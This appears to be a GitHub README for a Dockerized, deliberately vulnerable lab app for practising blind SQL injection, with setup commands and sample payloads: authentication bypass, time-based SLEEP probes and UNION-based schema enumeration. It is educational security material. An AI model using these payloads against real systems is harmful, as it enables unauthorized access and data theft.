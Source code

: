 ### Blind SQL Injection - Dockerized

This project provides a Dockerized environment to simulate and test **Blind SQL Injection** attacks in a secure and isolated setup. 
The goal is to help users understand the mechanics of this attack, how it differs from traditional SQL Injection, and how to experiment with it using practical examples.

---

### What is Blind SQL Injection?

#### Difference Between SQL Injection and Blind SQL Injection

**SQL Injection** allows attackers to directly view the results of their malicious queries, such as database errors or data displayed on the webpage. It is fast and straightforward since the output is immediately visible.

**Blind SQL Injection**, however, does not show direct results. Instead, attackers infer information by observing the application’s behavior (e.g., response times or changes in output). It is slower and more complex but can still extract sensitive data with persistence.

---

### Prerequisites

To run the Dockerized application, ensure the following are installed on your system:

- [Docker](https://www.docker.com/) (required to load and run the image)  
- [Git](https://git-scm.com/) (optional, for cloning the repository)  
- System with at least **2GB of free space** (the image size is ~801 MB).  

---

### Installation and Usage

Follow these steps to set up and run the application:

#### 1. Clone the Repository

If you haven't already, clone the repository from GitHub:
```bash
git clone https://github.com/ALAOUIa/Blind_SQL_Injection-App.git
cd Abdelaziz_Blind-SQL-Injection-Dockerized
```

#### 2. Load the Docker Image

Load the prebuilt Docker image from the `.tar` file:
```bash
docker load -i Abdelaziz_Blind-SQL-Injection-Dockerized.tar
```

#### 3. Run the Docker Container

Start the container with the following command:
```bash
docker run -p 8080:80 Abdelaziz_Hacker
```

#### 4. Access the Application

Open your browser and navigate to:
```
http://localhost:8080
```

#### 5. Test SQL Injection Attacks

Use the examples provided in the [Examples](#examples-of-blind-sql-injection-attacks) section to test Blind SQL Injection on the vulnerable endpoints.

---

### Examples of Blind SQL Injection Attacks

Here are some sample payloads to test on the vulnerable application:

#### 1. **Boolean-Based Blind SQL Injection**

This method evaluates responses based on a condition:

- True condition (bypasses authentication):
```sql
' OR 1=1 --
```

- False condition (does not bypass authentication):
```sql
' OR 1=2 --
```

#### 2. **Time-Based Blind SQL Injection**

This method uses time delays to infer information:

- Delay the response if the condition is true:
```sql
' OR IF(1=1, SLEEP(5), 0) --
```

- Test if the username is 'admin':
```sql
' OR IF(username='admin', SLEEP(5), 0) --
```

#### 3. **Data Enumeration**

Extract database structure or content:

- List table names:
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables --
```

- List column names from a specific table:
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users' --
```

---

### Disclaimer

This project is intended **solely for educational purposes**. Do not attempt these attacks on live systems or without explicit authorization. Misuse of this knowledge is unethical and may be illegal.
